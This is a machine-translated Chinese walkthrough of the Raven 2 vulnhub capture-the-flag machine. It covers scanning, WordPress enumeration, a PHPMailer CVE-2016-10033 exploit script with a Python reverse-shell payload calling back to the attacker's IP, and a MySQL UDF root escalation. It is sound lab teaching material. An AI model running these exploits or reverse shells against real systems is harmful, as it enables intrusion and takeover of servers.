






# 拉夫 EN 2 漫游(OSWE 像机器)

> 原文：<https://infosecwriteups.com/raven-2-walkthrough-oswe-like-machine-98bdfc62b9bf?source=collection_archive---------0----------------------->

嗨！我的名字是 Hashar Mujahid，今天我们要解决一个来自 vulnhub 的房间，它被 TJ-Null 列为 OSWE 机器。


大乌鸦

# **枚举:**

## 主机发现:

我们将从发现网络上的潜在目标开始。为此，我们可以使用多种工具，如 netdiscover、fping 或 nmap。

```
fping -a -g 192.168.59.0/24 2>/dev/null

root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# fping -a -g 192.168.59.0/24 2>/dev/null
192.168.59.1
192.168.59.2
192.168.59.128
192.168.59.130 ==> HOST IP ADRESS
```

我们可以用 nmap 执行同样的操作。

```
root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# nmap -sn 192.168.59.0/24
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 02:40 EST
Nmap scan report for 192.168.59.1
Host is up (0.00067s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.59.2
Host is up (0.00054s latency).
MAC Address: 00:50:56:E4:EA:5C (VMware) ===> Target
Nmap scan report for 192.168.59.128
Host is up (0.00061s latency).
MAC Address: 00:0C:29:7A:56:5E (VMware)
Nmap scan report for 192.168.59.254
Host is up (0.00056s latency).
MAC Address: 00:50:56:FE:B2:BF (VMware)
Nmap scan report for 192.168.59.130
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.76 seconds
```

现在我们有了目标的 ip 地址。接下来，我们要做的是运行端口扫描，查看哪些端口是打开的，哪些服务正在这些端口上运行。

## 端口扫描:

我们可以使用 nmap 来执行这项任务。

```
root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# sudo nmap -sC -sV -p- -oN nmap/scan 192.168.59.128 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 02:44 EST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 30.47% done; ETC: 02:45 (0:00:07 remaining)
Nmap scan report for 192.168.59.128
Host is up (0.00087s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 2681c1f35e01ef93493d911eae8b3cfc (DSA)
|   2048 315801194da280a6b90d40981c97aa53 (RSA)
|   256 1f773119deb0e16dca77077684d3a9a0 (ECDSA)
|_  256 0e8571a8a2c308699c91c03f8418dfae (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36026/tcp6  status
|   100024  1          42894/tcp   status
|   100024  1          49163/udp6  status
|_  100024  1          54484/udp   status
42894/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:7A:56:5E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.36 seconds
```

我们的目标是在端口 22 上运行 SSH 服务，在端口 80 上运行 web 服务器，在 111 和 42894 上运行 rpc。

我们还应该执行 udp 扫描。

```
root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# sudo nmap -sU -oN nmap/udp-scan 192.168.59.128 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 02:48 EST                                                                                                                               
Stats: 0:02:15 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 2.49% done; ETC: 04:20 (1:28:55 remaining)
Nmap scan report for 192.168.59.128
Host is up (0.00087s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
111/udp  open          rpcbind
1007/udp open|filtered unknown
MAC Address: 00:0C:29:7A:56:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1218.88 seconds
```

让我们列举这些服务。

## WEB 枚举:

我们有一个运行在 80 端口的 web 服务器，让我们访问它并找到一些有用的信息。



## 目录扫描:

我们可以使用 dirsearch 来搜索目录。

```
root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# dirsearch --url http://192.168.59.128/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/192.168.59.128/-_22-11-30_04-59-53.txt

Error Log: /root/.dirsearch/logs/errors-22-11-30_04-59-53.log

Target: http://192.168.59.128/

[04:59:53] Starting: 
[04:59:54] 301 -  313B  - /js  ->  http://192.168.59.128/js/               
[04:59:55] 200 -   18KB - /.DS_Store                                                                                  
[05:00:09] 200 -   13KB - /about.html                                       
[05:00:42] 200 -    9KB - /contact.php                                      
[05:00:45] 301 -  314B  - /css  ->  http://192.168.59.128/css/              
[05:00:59] 301 -  316B  - /fonts  ->  http://192.168.59.128/fonts/          
[05:01:06] 301 -  314B  - /img  ->  http://192.168.59.128/img/              
[05:01:07] 200 -   16KB - /index.html                                       
[05:01:10] 200 -    4KB - /js/                                              
[05:01:19] 301 -  317B  - /manual  ->  http://192.168.59.128/manual/        
[05:01:19] 200 -  626B  - /manual/index.html
[05:01:48] 403 -  302B  - /server-status                                    
[05:01:48] 403 -  303B  - /server-status/                                   
[05:02:06] 200 -    5KB - /vendor/                                          
[05:02:10] 200 -    2KB - /wordpress/wp-login.php                           
[05:02:11] 200 -   51KB - /wordpress/bash
```

浏览目录寻找一些有趣的信息。在`/vendor`目录中发现了一些有趣的信息。



> 标志 1 位于“路径”目录中。
> 
> `/var/www/html/vendor/`
> 
> flag 1 { a2 C1 f 66 D2 b 8051 bd3a 5874 b5 b 6 e 43 e 21 }

通读目录看起来像 php 邮件程序安装在这个网站上，我们看到一个联系页面，其中有一个联系形式，点击 mail.php，但回应是 404 找不到。

> 在/vendor/version“5 . 2 . 16”中找到一个版本号

发现了一个域名`raven.local`，所以把它添加到我们的`/etc/hosts`

注意到 WordPress 也在网站上运行，让我们用 wp-scan 列举 WordPress。

## WPSCAN:

我们将使用 wpscan 找到一些关于 wordpress 的有趣信息。

```
 root@kali:/home/kali/Desktop/ctfs/Raven2-Vulnhun# wpscan --url http://raven.local/wordpress/ -e vp,vt,u,dbe --api-token <token>
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://raven.local/wordpress/ [192.168.59.128]
[+] Started: Wed Nov 30 05:38:40 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://raven.local/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://raven.local/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://raven.local/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://raven.local/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8.21 identified (Outdated, released on 0001-01-01).
 | Found By: Rss Generator (Passive Detection)
 |  - http://raven.local/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=4.8.21</generator>
 |  - http://raven.local/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8.21</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://raven.local/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://raven.local/wordpress/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://raven.local/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.8.21
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://raven.local/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.8.21, Match: 'Version: 1.3'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:02 <=====================================================> (480 / 480) 100.00% Time: 00:00:02
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <============================================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=======================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] michael
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://raven.local/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 72

[+] Finished: Wed Nov 30 05:39:02 2022
[+] Requests Done: 631
[+] Cached Requests: 11
[+] Data Sent: 171.725 KB
[+] Data Received: 19.947 MB
[+] Memory used: 294.805 MB
[+] Elapsed time: 00:00:21
```

> 在[http://raven . local/WordPress/WP-content/uploads/2018/11/FLAG 3 . png](http://raven.local/wordpress/wp-content/uploads/2018/11/flag3.png)中找到标志 3

我们有两个用户迈克尔和史蒂文，我们需要某种凭证来尝试对这两个用户进入管理面板。我试过强行破解密码，但还是找点别的吧。

# PHP 代码在 CONTACT-US 页面中的执行；

通过阅读“SECURITY.md ”,我发现了一些有趣的事情。

PHP mailer 5 . 2 . 18(2016 年 12 月发布)之前的版本易受[CVE-2016–10033](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-10033)远程代码执行漏洞的攻击，由[达维德·戈伦斯基](https://legalhackers.com)负责报告。

> 我们的 php 版本是 5.2.16，所以我们可能有一个 RCE。让我们搜索它是如何工作的。

PHP Mailer 5 . 2 . 18 之前版本中 isMail 传输中的 mailSend 函数可能允许远程攻击者向 mail 命令传递额外的参数，从而通过精心编制的 Sender 属性中的\ "执行任意代码。

我在 legalhacker 的博客上找到了这个漏洞的解释。

[](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) [## PHP mailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln

### 编辑描述

legalhackers.com](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) 

来自链接的 POC。

```
// Attacker's input coming from untrusted source such as $_GET , $_POST etc.
// For example from a Contact form

$email_from = '"attacker\" -oQ/tmp/ -X/var/www/cache/phpcode.php  some"@email.com';
$msg_body  = "<?php phpinfo(); ?>";
```

我们可以通过将有效载荷放入以下字段来尝试。



但是我们似乎不能绕过这个验证。让我们来看看公众利用。

```
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://localhost:8080'
backdoor = '/backdoor.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.0.12\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}

print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```

发现这个漏洞，但它有一些问题。该漏洞似乎将 post 请求发送到 web 服务器的根目录，但我们在`/contact.php`中有一个联系表单，在该表单之后的字段中缺少一个命名主题的参数。最重要的是，验证部分似乎也不工作，所以我不得不拿出我自己的。

总结我的功绩看起来像这样。

```
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.59.128/'
direc='contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.59.130\\\',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'subject':'test',
        'email': '"attacker\\" -oQ/tmp/ -X/var/www/html/shell.php  some"@email.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}

print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target+direc, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
else: 
        print('something is wrong')
```

现在启动一个监听器并运行漏洞，之后你将不得不访问后门来启动连接。



在进攻方。



现在使用 python 生成一个 tty shell。

## 特权逃避:

收到 shell 后，我们在`/wordpress/wp-config.php`中找到数据库凭证。

```
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
```

> 在`/var/www directory`找到了 Flag2
> 
> flag 2 { 6a 8ed 560 f0b 5358 ECF 844108048 EB 337 }

现在转移 linpeas 并列举一些潜在的特权点。



我们有 mysql 凭证，我们可以查看这个特定版本是否有任何特权漏洞。

 [## MySQL 用户定义(Linux) x32 / x86_64 sys_exec 权限提升

### MySQL 用户定义(Linux) x32 / x86_64 sys_exec 权限提升作者 D7X MySQL 用户定义(Linux) x32 /…

packetstormsecurity.com](https://packetstormsecurity.com/files/151369/MySQL-User-Defined-Linux-x32-x86_64-sys_exec-Privilege-Escalation.html) [](https://github.com/d7x/udf_root/blob/master/udf_root.py) [## 主 d7x/udf_root 处的 udf_root/udf_root.py

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/d7x/udf_root/blob/master/udf_root.py) 

## 利用用户定义的函数。

下载 github 漏洞并将其传送给受害者。

之后运行漏洞并获得一个根外壳。

```
www-data@Raven:/tmp$ ls
linpeas.sh  sh  tmux-33  udf_root.py
www-data@Raven:/tmp$ python2 udf_root.py --username root --password R@v3nSecurity
Plugin dir is /usr/lib/mysql/plugin/
Trying to create a udf library...
UDF library crated successfully: /usr/lib/mysql/plugin/udf1784.so
Trying to create sys_exec...
ERROR 1125 (HY000) at line 1: Function 'sys_exec' already exists
Checking if sys_exec was crated...
sys_exec was found: *************************** 1\. row ***************************
name: sys_exec
 ret: 2
  dl: udf2422.so
type: function

Generating a suid binary in /tmp/sh...
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
|                                                                       0 |
+-------------------------------------------------------------------------+
Trying to spawn a root shell...
# whoami
root
```

现在读出`/root/flag4.txt`中的 flag4。

```
# cat /root/flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|

flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io
```

我会在下一个博客中看到你，直到那时快乐的黑客！❤

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！